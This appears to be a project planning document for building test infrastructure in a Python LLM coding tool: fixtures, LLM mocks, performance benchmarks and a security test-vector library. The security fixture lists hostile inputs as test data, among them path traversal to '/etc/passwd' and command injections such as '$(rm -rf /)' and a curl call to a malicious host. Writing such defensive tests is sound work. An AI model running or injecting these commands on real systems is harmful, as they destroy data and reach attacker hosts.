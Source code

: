 # Phase 1: Enhanced Test Infrastructure

**Status**: ✅ Complete  
**Target Duration**: 1-2 sessions  
**Priority**: Critical

## Overview

Establish robust testing foundation with enhanced fixtures, security testing capabilities, and performance benchmarking infrastructure.

## Session Planning

### Session 1: Fixtures and Security Foundation
**Focus**: Core testing infrastructure
**Duration**: 2-3 hours

#### Tasks
- [x] **Enhanced Fixtures** (90 min) ✅
  - [x] `complex_codebase` fixture - Multi-file project structure ✅
  - [x] `git_repository` fixture - Version control scenarios ✅
  - [x] `large_files` fixture - Performance testing data ✅
  - [x] `nested_directories` fixture - Complex directory structures ✅
  - [x] `permission_variations` fixture - File permission scenarios ✅

- [x] **Security Test Vectors** (60 min) ✅
  - [x] Path traversal attack patterns ✅
  - [x] Command injection payloads ✅
  - [x] File permission bypass attempts ✅
  - [x] Resource exhaustion scenarios ✅
  - [x] Unicode and encoding attacks ✅

- [x] **Test Utilities** (30 min) ✅
  - [x] Security test helper functions ✅
  - [x] File system assertion utilities ✅
  - [x] Process monitoring helpers ✅

#### Deliverables
- [x] `tests/fixtures/complex_scenarios.py` - Enhanced fixture library ✅
- [x] `tests/fixtures/security_vectors.py` - Attack pattern library ✅
- [x] `tests/utils/` - Testing utility functions ✅

### Session 2: Mocking and Performance Framework
**Focus**: LLM mocking and performance testing
**Duration**: 2-3 hours

#### Tasks
- [x] **LLM Mocking Infrastructure** (90 min) ✅
  - [x] Mock LLM response generator ✅
  - [x] Deterministic response scenarios ✅
  - [x] Error simulation capabilities ✅
  - [x] Rate limiting simulation ✅
  - [x] Token usage tracking ✅

- [x] **Performance Testing Framework** (60 min) ✅
  - [x] Benchmark fixture setup ✅
  - [x] Performance assertion utilities ✅
  - [x] Memory usage monitoring ✅
  - [x] Execution time tracking ✅
  - [x] Resource limit testing ✅

- [x] **CI/CD Integration** (30 min) ✅
  - [x] Test configuration optimization ✅
  - [x] Parallel test execution setup ✅
  - [x] Coverage reporting enhancement ✅
  - [x] Performance regression detection ✅

#### Deliverables
- [x] `tests/mocks/llm_mock.py` - LLM mocking system ✅
- [x] `tests/performance/` - Performance testing framework ✅
- [x] Enhanced `pyproject.toml` configuration ✅

## Detailed Task Breakdown

### Enhanced Fixtures

#### `complex_codebase` Fixture
```python
@pytest.fixture
def complex_codebase(temp_workspace):
    """Create a realistic multi-file project structure."""
    # Python project with modules, tests, docs
    # Multiple languages (Python, JS, Rust, etc.)
    # Various file types (code, config, data)
    # Symlinks and special files
```

#### `security_vectors` Fixture
```python
@pytest.fixture
def security_vectors():
    """Common security attack vectors for testing."""
    return {
        'path_traversal': ['../../../etc/passwd', '..\\..\\windows\\system32'],
        'command_injection': ['$(rm -rf /)', '`curl malicious.com`'],
        'file_bombs': ['compressed_bomb.zip', 'billion_laughs.xml'],
        'unicode_attacks': ['../\u202e/etc/passwd', 'file\u200b.txt']
    }
```

### LLM Mocking System

#### Mock Response Generator
```python
class MockLLMProvider:
    def __init__(self, response_scenarios):
        self.scenarios = response_scenarios
        
    def generate_response(self, prompt, context=None):
        # Deterministic responses based on prompt patterns
        # Error simulation capabilities
        # Token usage tracking
```

### Performance Framework

#### Benchmark Fixtures
```python
@pytest.fixture
def benchmark_data():
    """Generate data for performance testing."""
    # Large file sets
    # Complex directory structures
    # Memory-intensive operations
    
@pytest.fixture
def performance_monitor():
    """Monitor resource usage during tests."""
    # Memory tracking
    # CPU usage monitoring
    # I/O operation counting
```

## Quality Gates

### Phase 1 Completion Criteria
- [ ] All fixtures working with sample data
- [ ] Security vectors tested against basic validation
- [ ] LLM mocking producing deterministic responses
- [ ] Performance benchmarks running successfully
- [ ] CI/CD pipeline enhanced and tested

### Testing Checklist
- [ ] `pytest tests/fixtures/` - All fixtures functional
- [ ] `pytest tests/security/` - Security vectors validated
- [ ] `pytest tests/mocks/` - LLM mocking working
- [ ] `pytest tests/performance/` - Benchmarks running
- [ ] `pytest --cov=src/james_code` - Coverage reporting enhanced

## Common Issues and Solutions

### Potential Blockers
- **Fixture Complexity**: Start simple, iterate
- **Security Vector False Positives**: Validate against known safe inputs
- **LLM Mock Realism**: Focus on deterministic behavior over exact mimicry
- **Performance Variance**: Use statistical analysis for benchmarks

### Debug Commands
```bash
# Test specific fixtures
pytest tests/fixtures/test_complex_scenarios.py -v

# Validate security vectors
pytest tests/security/test_vectors.py -v

# Check LLM mocking
pytest tests/mocks/test_llm_mock.py -v

# Run performance benchmarks
pytest tests/performance/ --benchmark-only
```

## Session Notes Template

### Session Start Checklist
- [ ] Review previous session progress
- [ ] Identify current task priorities
- [ ] Set session time boundaries
- [ ] Prepare development environment

### Session End Checklist
- [ ] Update task completion status
- [ ] Document any blockers or issues
- [ ] Identify next session priorities
- [ ] Update main progress tracker

## Next Phase Preparation

### Phase 2 Readiness
- [ ] All Phase 1 fixtures available
- [ ] Security testing patterns established
- [ ] Performance baseline established
- [ ] Mock infrastructure ready for tool testing

### Handoff Documentation
- [ ] Fixture usage examples
- [ ] Security testing patterns
- [ ] Performance benchmarking guide
- [ ] Mock configuration documentation
